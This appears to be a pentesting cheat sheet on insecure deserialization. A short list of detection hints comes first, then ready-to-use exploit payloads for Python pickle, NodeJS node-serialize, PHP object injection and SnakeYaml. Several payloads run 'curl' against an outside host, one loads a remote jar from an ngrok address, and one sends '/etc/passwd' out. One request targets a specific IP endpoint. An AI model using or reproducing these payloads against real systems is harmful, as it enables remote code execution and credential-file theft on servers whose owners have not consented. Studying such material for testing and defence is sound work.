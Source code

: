 # Detection
- Search source code for deserialization functions and check if user input is being passed into it recklessly.
  - PHP: `unserialize()`
  - Java: `readObject()`
  - Python: `pickle.loads()`
  - Ruby: `Marshall.load()`
- Pay attention to the large blobs of data passed into an application.
  - If the data is encoded, try to decode it.
  - Java serialized objects often start with the hex characters `AC ED 00 05` or the characters `rO0` in base64.
- `Content-Type: application/x-java-serialized-object`  →  The application is passing information via Java serialized objects. 
 
# Exploit
### Python
- Use the base64-encoded output of this code, to inject instead of serialized data.
  - If there is `+` in payload, convert it to `%2b`, to be able to passed via URL.
  ```python
  import pickle
  import os
  import base64

  class EvilPickle(object):
      def __reduce__(self):
          return (os.system, ('curl cvefix.ir:8080', ))
  pickle_data = pickle.dumps(EvilPickle())
  with open("my.data", "wb") as file:
      file.write(base64.b64encode(pickle_data))
  ```

### NodeJS
- Code to generate paylaod:
  ```javascript
  var y = {
   rce : function(){
   require('child_process').exec('curl cvefix.ir:8080', function(error, stdout, stderr) { console.log(stdout) });
   },
  }
  var serialize = require('node-serialize');
  console.log("Serialized: \n" + serialize.serialize(y));
  ```
  ```bash
  node exp.js
  ```
- Add `()` at the end of the output of above code, then Base64-encode the paylaod and use it as input, instead of serialized data.

### PHP
- Find the source code (`rss.php`) from backup files:
  ```php
  <?php 
  error_reporting(E_ALL);
  class VulnerableClass{
      private $__TimexDEBUG;
      public $inject;
      function __construct(){}
      function __wakeup(){
          if(isset($this->__TimexDEBUG)){
              eval($this->inject);
          }
      }
  }
  ...
  ```
- Write a php code (`exploit.php`) to generate maliciuos object, based on the leaked source code.
  ```php
  <?php
  class VulnerableClass{
      private $__TimexDEBUG=true;
      public $inject="echo 'ehsan';";
  }
  echo urlencode(serialize(new VulnerableClass));
  ?>
  ```
  ```php
  php exploit.php
  # O%3A15%3A%22VulnerableClass%22%3A2%3A%7Bs%3A29%3A%22%00VulnerableClass%00__TimexDEBUG%22%3Bb%3A1%3Bs%3A6%3A%22inject%22%3Bs%3A13%3A%22echo+%27ehsan%27%3B%22%3B%7D
  ```
- Send the object to vulnerable endpoint
  ```bash
  http://77.238.121.150:37727/rss.php?__TimexDEBUG=O%3A15%3A%22VulnerableClass%22%3A2%3A{s%3A29%3A%22%00VulnerableClass%00__TimexDEBUG%22%3Bb%3A1%3Bs%3A6%3A%22inject%22%3Bs%3A13%3A%22echo+%27ehsan%27%3B%22%3B}r
  ```
- Another exploitation of a vulnerable code that create `/tmp/POC/SHELL` in victim server.
  ```php
  <?php
  class site{
      private $debug = 'true';
      public $filename = '/tmp/POC';
      public $name = 'SHELL';
  }
  
  print(base64_encode(serialize(new site)));
  ?>
  ```

### Java
- SnakeYaml vulnerability (_https://snyk.io/blog/unsafe-deserialization-snakeyaml-java-cve-2022-1471/_)
- Detection
  ```bash
  POST /update HTTP/1.1
  (Request Body)
  -----------------------------2011825832476402807620303023
  Content-Disposition: form-data; name="config"

  a: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["https://03aa-69-159-156-59.ngrok-free.app/test.jar"]]]]
  b: fdsklj
  -----------------------------2011825832476402807620303023--
  ```
- Exploitation
  ```bash
  POST /update HTTP/1.1
  (Request Body)
  -----------------------------2011825832476402807620303023
  Content-Disposition: form-data; name="config"

  a: !!com.lean.watersnake.GetWaterLevel ["curl http://cvefix.ir:8080 --data-binary @/etc/passwd "]
  b: fdsklj
  -----------------------------2011825832476402807620303023--
  ```
